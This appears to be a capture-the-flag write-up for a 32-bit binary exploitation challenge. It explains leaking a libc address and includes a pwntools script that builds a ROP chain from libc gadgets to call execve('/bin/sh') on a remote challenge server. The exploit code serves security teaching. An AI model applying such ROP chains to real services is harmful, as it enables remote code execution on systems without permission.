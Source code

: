 
# Given this, we can now use any gadgets found in libc, and simply add the offsets
# for these to the libc base. Using these, we want to create a ROP chain that does
# execve("/bin/sh", NULL, NULL). Using shellcode, we would do:
'''
mov eax, 11
mov ebx, "/bin/sh"
xor ecx, ecx
xor edx, edx
int 0x80
''' 

# Using ropper, we can find these gadgets and chain them together in our payload.
# If we finally send this payload such that it overwrites the return address, we
# will pop a shell and be able to access the flag.

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 6003)

# First we need to extract the leaked libc address.
p.recvuntil("- ")
libc_leak = int(p.recv(10), 0)

# Given this, we find the offset of setbuf in libc (which is what was being printed),
# and subtract it from this leak to get the base of libc.
libc_base = libc_leak - 0x00065ff0

# Now using ropper we are able to find gadgets to use in our payload, adding the
# offsets given to the libc base.
xor_eax_eax = libc_base + 0x0002c79c
inc_eax = libc_base + 0x00024b41
pop_ebx = libc_base + 0x00089293
bin_sh = libc_base + 0x0015ba0b
pop_ecx_edx = libc_base + 0x0002bc6c
int_80 = libc_base + 0x00002c87

# Our payload then consists of these gadgets chained together to pop a shell.
payload = (
    p32(xor_eax_eax) + # xor eax, eax; ret;
    p32(inc_eax)*11 + # inc eax; ret;
    p32(pop_ebx) + # pop ebx; ret
    p32(bin_sh) + # /bin/sh that pops into ebx
    p32(pop_ecx_edx) + # pop ecx; pop edx; ret;
	p32(0) +
	p32(0) +
    p32(int_80) # int 0x80;
)

```